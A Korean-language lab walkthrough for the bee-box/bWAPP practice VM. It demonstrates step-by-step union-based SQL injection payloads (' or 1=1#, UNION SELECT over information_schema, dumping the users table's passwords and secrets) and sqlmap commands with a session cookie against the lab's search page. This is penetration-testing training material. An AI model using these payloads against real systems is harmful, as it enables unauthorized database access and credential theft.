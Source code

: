 

# Bee - Box

<center><img src = "https://user-images.githubusercontent.com/76420201/106377985-3783a600-63e4-11eb-924e-731743774575.jpg" width = "70%"></center>
<br>

- 비박스(bee-box)란 웹 어플리케이션에서 자주 발생하는 취약점을 쉽게 테스트할 수 있도록 의도된 환경을 제공한다. 정확한 명칭은 bWAPP이며, 이를 가상머신의 형태로 꾸며놓은 것을 비박스라고 부른다. 
- 취약점 테스팅 서비스는 비박스가 처음으로 등장한 것은 아니며, 대표적으로 DVWA이나 WebGoat(OWASP 프로젝트)와 유사하다. 비박스가 가지는 장점은 실습해볼 수 있는 컨텐츠의 양이 절대적으로 훨씬 더 많다는 것이다. 
- 난이도 조절이 3단계로 가능하므로 조금 더 폭넓은 모의해킹 연습 훈련소로 활용할 수 있다.

<br>

<details markdown="1">
<summary><b>Union SQL Injection</b></summary>
<br>   

```
bWQPP -> SQL Injection(GET/Search)

ID : bee
PW : bug
level : Low

문제: 해당 사이트에서 사용자 정보(이름, 아이디, 패스워드 등)를 탈취하기 
```

---

**Step 1. 기본 동작을 유추**

해당 페이지는 영화 제목을 검색하는 페이지기 때문에 **DB에서 사용자 입력을 키워드로 조회한 결과**를 보여준다.

<center><img src = "https://user-images.githubusercontent.com/76420201/106378432-1c1a9a00-63e8-11eb-924b-c9bdac4f8bfd.gif"></center>

서버 내부 처리(추측)<br>
`select * from movies where title like '%man%'`

---

**Step 2. 인젝션 가능 여부를 확인**

검색란에 작은따옴표`'`를 입력하여 SQL 인젝션이 가능한지 알아본다. 변수에 SQL 인젝션 취약점이 존재하는 경우 SQL오류 메시지를 출력한다.<br>
작은따옴표`'`를 입력하는 이유는 DB에서 `'`로 문자 데이터를 구분하기 때문이다. 따라서 취약점이 존재할 때 `'`를 입력하면 웹 서버에서 DB서버에 질의하는 쿼리에 문법 오류가 발생한다.

서버 내부 처리(추측)<br>
`SELECT * FROM moview WEHRE LIKE ' %man'% '`

<center><img src= "https://user-images.githubusercontent.com/76420201/106378433-1d4bc700-63e8-11eb-960d-4bd979b6dc9b.gif"></center>

오류 메시지에는 DB 서버가 포함되는데, DB서버 종류의 따라 SQL 구문이 다르기 때문에 가장먼서 서버 정보를 확인한다. 오류 메시지를 확인해 보면 해당 DB 서버는 MySQL이라는 정보를 출력하고 있다.

---

**Step 3. UNION 구문을 이용해서 데이터 출력 개수와 위치를 확인**

`or 1=1`이라는 쿼리는 앞 쿼리의 내용과는 상관없이 항상 참이라는 결과를 만드는 쿼리이다. 이 쿼리를 통해서 **어떤 주석 문자를 사용하는지 알아본다**. 맨 마지막에 주석 문자를 붙여주면서 기존 코드의 뒷부분을 주석 처리한다. 

MySQL주석 문자는 `#` 또는 `--`을 사용한다. 따라서 두가지 쿼리를 입력해봐야 한다.
1. `' or 1=1--`
2. `' or 1=1#` 

<center><img src = "https://user-images.githubusercontent.com/76420201/106378861-50dc2080-63eb-11eb-9e03-29994b7f91b3.gif" width = "70%"></center>

첫번째 쿼리에서는 에러가 나고 두번째 쿼리에서 정상적으로 결과가 출력되는걸 확인할 수 있다.

더 자세한 정보를 알아내기 위하여 UNION SELECT 구문을 사용한다. UNION은 SELECT 문이 둘 이상일 때 이를 결합하여 결과를 하나로 반환한다.

두 쿼리의 결과를 하나의 테이블로 합치기 때문에 UNION 구문을 사용하려면 이전 쿼리에서 사용하는 **SELECT 문의 칼럼 수를 일치** 시켜줘야 한다. 칼럼의 수가 일치하지 않는경우 오류 메시지가 나오고, 오류 메시지가 나오지 않을 때까지 칼럼 수를 늘려가며 확인한다.

`' UNION SELECT  1,2,3,4,5#`

<center><img src = "https://user-images.githubusercontent.com/76420201/106379433-59cef100-63ef-11eb-8937-fc0ad93e4445.gif"></center>
<br>

`' UNION SELECT  1,2,3,4,5,6,7#`<br>
칼럼수가 7개가 될 때 정상적으로 결과를 출력한다. 또한 `1,2,3,4,5,6,7`로 입력 하였을때 `2, 3, 5, 4`칼럼의 값만 출력되는 것을 확인할 수 있다.

<center><img src = "https://user-images.githubusercontent.com/76420201/106379432-589dc400-63ef-11eb-8b33-ee22c1813be0.gif" width = "70%"></center>

---

**Step 4. UNION 구문을 이용해서 데이터베이스 정보를 조회**

MySQL 버전을 확인하기 위해서 시스템 변수나 시스템 함수를 활용하여 쿼리를 입력한다.

`' UNION SELECT 1, @@version, 3, 4, 5, 6, 7#`

<center><img src = "https://user-images.githubusercontent.com/76420201/106381745-52fbaa80-63fe-11eb-9503-cf5ac7de52d3.gif" width = "70%"></center>
<br>

- SQL 인젝션으로 데이터베이서의 정보를 파악할 수 있는 변수와 함수

| 시스템 변수 및 함수 | 설명 |
|-------------------|------|
| databases() | 데이터베이스 명을 알려주는 함수|
| user() | 현자 사용자의 아이디 |
| system_user() | 최고 권한 사용자의 아이디 |
| @@version | 데이터베이스 서버의 버전 |
| @@datadir | 데이터베이스 서버가 존재하는 디렉터리 |

---

**Step 5. DB 정보 확인**

[https://dev.mysql.com/doc/refman/8.0/en/information-schema-schemata-table.html](https://dev.mysql.com/doc/refman/8.0/en/information-schema-schemata-table.html)

<center><img src = "https://user-images.githubusercontent.com/76420201/106382105-bbe42200-6400-11eb-8b4d-8e071a2982ec.gif" width = "80%"></center>

MySQL 공식 문서를 참고해보면 information_schema.schemata은 데이터베이스들의 정보를 제공해줍니다. 그중 SCEMA_NAME이라는 컬럼은 schema의 name값을 가지고 있다는 것을 알 수 있습니다.

<br>

`' UNION SELECT 1,SCHEMA_NAME, 3, 4, 5, 6, 7 from information_schema.schemata#`

<center><img src = "https://user-images.githubusercontent.com/76420201/106382451-0f576f80-6403-11eb-988d-3b7a5f36f556.gif" width = "80%"></center>

SQL 인젝션 결과 데이터베이스 서버에 존재하는 모든 데이터베이스 명을 출력했습니다.

---

**Step 6. Table 정보 확인**

[https://dev.mysql.com/doc/refman/8.0/en/information-schema-tables-table.html](https://dev.mysql.com/doc/refman/8.0/en/information-schema-tables-table.html)

- where 절을 이용해서 필요한 테이블만 별도로 추출<br>
`' UNION select 1, TABLE_SCHEMA, TABLE_NAME, 4, 5, 6, 7 from information_schema.tables where table_schema = 'bWAPP' # %'`

- 불필요한 정보를 쿼리 실행 결과에 포함되지 않도록 쿼리를 수정<br>
`' and 1 = 2 UNION select 1, TABLE_SCHEMA, TABLE_NAME, 4, 5, 6, 7 from information_schema.tables where table_schema = 'bWAPP' #` 

<center><img src = "https://user-images.githubusercontent.com/76420201/106382834-7b3ad780-6405-11eb-98b6-cd6a9d131a6b.gif" width = "70%"></center>

출력된 테이블 명 중 users 테이블에 사용자의 계정 정보가 들어있다고 추측할 수 있습니다. users table의 정보를 출력해봅니다.

---

**Step 7. users 테이블의 정보를 조회**

[https://dev.mysql.com/doc/refman/8.0/en/information-schema-columns-table.html](https://dev.mysql.com/doc/refman/8.0/en/information-schema-columns-table.html)

`' and 1 = 2 UNION select 1, TABLE_SCHEMA, TABLE_NAME, COLUMN_NAME, 5, 6, 7 from information_schema.columns where table_schema = 'bWAPP' and table_name = 'users' #`

<center><img src = "https://user-images.githubusercontent.com/76420201/106383003-804c5680-6406-11eb-931d-273a10b9b4de.gif" width = "80%"></center>

칼럼 내용을 확인하려면 페이지에 노출되는 칼럼 순서에 맞춰 확인하고 싶은 칼럼명을 입력한다. 페이지에 노출된 칼럼 수보다 확인하려는 칼럼 수가 많을 때는 concat 함수를 사용하여 칼럼 명을 인자로 입력하면 여러 칼럼의 내용을 볼 수 있습니다.

`' and 1 = 2 UNION SELECT 1, concat(id, login), password, email, secret, 6, 7 from users#`

<center><img src = "https://user-images.githubusercontent.com/76420201/106383165-a58d9480-6407-11eb-9628-ac96f0a4bfee.gif" width = "80%"></center>

SQL 인젝션 후 웹 브라우저에서 데이터베이스에 저장된 users 테이블 칼럼의 내용이 확인 가능하다. 그 중 password 칼럼에는 비밀번호의 해시값을 저장한다.

</details>

---

<details markdown="1">
<summary><b>sqlmap을 이용한 공격
</b></summary>
<br>   

**Step 1. 사용법**
`sqlmap -u [SQL Injection 취약점이 존재하는 페이지의 주소] --cookie = [인증을 전제하는 경우에 SESSIONID가 포함된 쿠키값]`

- 페이지 주소 : http://bee-box/bWAPP/sqli_1.php?title=man&action=search

- cookie 값 :

브라우저 개발도구(F12)의 Storage 확인
![sqlmap1](https://user-images.githubusercontent.com/76420201/106384529-aa097b80-640e-11eb-91c2-17fa5d13baf7.gif)
PHPSESSID = fc13d1925d717ec8ff2ec1f6e6182f34<br>
security_level = 0

---

**Step 2. SQL Injection 공격 가능 여부 확인**

```
┌──(kali㉿kali)-[~]
└─$ sudo sqlmap -u "http://bee-box/bWAPP/sqli_1.php?title=man&action=search" \
--cookie="PHPSESSID=fc13d1925d717ec8ff2ec1f6e6182f34; security_level=0"
```

<center><img src = "https://user-images.githubusercontent.com/76420201/106384672-6d8a4f80-640f-11eb-992a-3b0a7db2a87b.gif" width = "100%"></center>

---

**Step 3. DB 정보 확인**
```
┌──(kali㉿kali)-[~]
└─$ sudo sqlmap -u "http://bee-box/bWAPP/sqli_1.php?title=man&action=search" \
--cookie="PHPSESSID=fc13d1925d717ec8ff2ec1f6e6182f34; security_level=0" --dbs
```

![sqlmap3](https://user-images.githubusercontent.com/76420201/106386065-88ac8d80-6416-11eb-98e2-7c561cb7fe1a.gif)

---

**Step 4. bWAPP 테이블 목록 확인**
```
┌──(kali㉿kali)-[~]
└─$ sudo sqlmap -u "http://bee-box/bWAPP/sqli_1.php?title=man&action=search" \
--cookie="PHPSESSID=fc13d1925d717ec8ff2ec1f6e6182f34; security_level=0" -D bWAPP --tables
```

![sqlmap4](https://user-images.githubusercontent.com/76420201/106386066-89ddba80-6416-11eb-9234-989108405092.gif)

</details>

